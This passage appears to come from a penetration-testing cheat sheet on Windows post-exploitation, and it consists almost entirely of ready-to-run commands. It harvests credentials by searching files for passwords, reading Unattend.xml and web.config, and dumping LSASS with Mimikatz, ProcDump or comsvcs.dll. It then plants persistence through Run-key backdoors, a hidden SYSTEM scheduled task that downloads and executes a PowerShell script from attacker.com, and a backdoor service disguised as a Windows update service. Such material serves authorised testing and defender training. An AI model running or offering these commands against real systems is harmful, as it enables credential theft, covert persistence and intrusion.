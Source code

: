 ```bash
# Putty stored sessions
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# File system credential locations
# Search for files containing credentials
findstr /si password *.txt *.ini *.cfg *.config *.xml
findstr /si password *.log
dir /s *pass* == *cred* == *vnc* == *.config*

# Common credential file locations
type C:\Windows\Panther\Unattend.xml
type C:\Windows\Panther\Unattended.xml
type C:\Windows\System32\sysprep.inf
type C:\Windows\System32\sysprep\sysprep.xml

# Web application credentials
type C:\inetpub\wwwroot\web.config
findstr /si password C:\inetpub\wwwroot\*.config

# Database connection strings
findstr /si "connectionString\|server=\|uid=\|pwd=" *.config

# Memory credential extraction
# Using Mimikatz (if available)
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
# Extracts plaintext passwords from LSASS memory

# Alternative memory extraction methods
# Using ProcDump to dump LSASS
procdump.exe -accepteula -ma lsass.exe lsass.dmp
# Analyze dump offline with Mimikatz

# Using comsvcs.dll (Living off the Land)
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [PID] C:\temp\lsass.dmp full
# Find LSASS PID: tasklist /fi "imagename eq lsass.exe"

# Why credential harvesting is essential:
# - Enables lateral movement to other systems
# - Provides higher privilege account access
# - Supports persistence mechanisms
# - Critical for post-exploitation phase
```

### **Windows Persistence Mechanisms**

**What Windows persistence involves:** Maintaining access to compromised Windows systems through various autostart mechanisms and service installations.

```bash
# Registry-based persistence
# Auto-run registry keys
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Backdoor" /t REG_SZ /d "C:\temp\shell.exe"
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemUpdate" /t REG_SZ /d "C:\Windows\System32\shell.exe"

# Scheduled task persistence
schtasks /create /tn "SystemCheck" /tr "powershell -WindowStyle Hidden -c \"IEX(New-Object Net.WebClient).downloadString('http://attacker.com/shell.ps1')\"" /sc onlogon /ru "SYSTEM"

# Service persistence
sc create "BackdoorService" binpath= "C:\temp\service.exe" start= auto
sc description "BackdoorService" "Windows Security Update Service"
net start "BackdoorService"
```